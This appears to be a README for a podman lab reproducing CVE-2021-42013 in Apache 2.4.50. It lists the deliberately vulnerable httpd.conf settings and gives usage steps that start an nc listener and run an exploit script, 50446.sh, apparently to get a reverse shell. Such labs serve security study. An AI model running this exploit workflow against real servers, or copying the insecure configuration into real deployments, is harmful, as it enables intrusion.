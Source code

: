 # Apache 2.4.50 - Path Traversal or Remote Code Execution
Vulnerable instance of Container is provided to get your hands dirty on [CVE-2021-42013](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013)

If CGI-BIN is enabled than, we can perform Remote Code Execution but not Path Traversal, so "icons" directory has been added under Alias section in httpd.conf for checking Path Traversal vulnerability.

# Vulnerable Configurations in httpd.conf
```
1. Enable CGI-BIN
2. Add "icons" directory in Alias section
3. <Directory>Require all granted</Directory>
```

# Lab for CVE-2021-42013
### Build
```
$ podman build -t cve-2021-42013 .
```
### Run
```
$ podman run -it --rm -p 8080:8080 cve-2021-42013
```

# Usage  
###
Open one terminal and run 
```
nc -l 9000
``` 
###
Open a second terminal and run
```
$ ./50446.sh http://127.0.0.1:8080 <Your IP> 9000
```

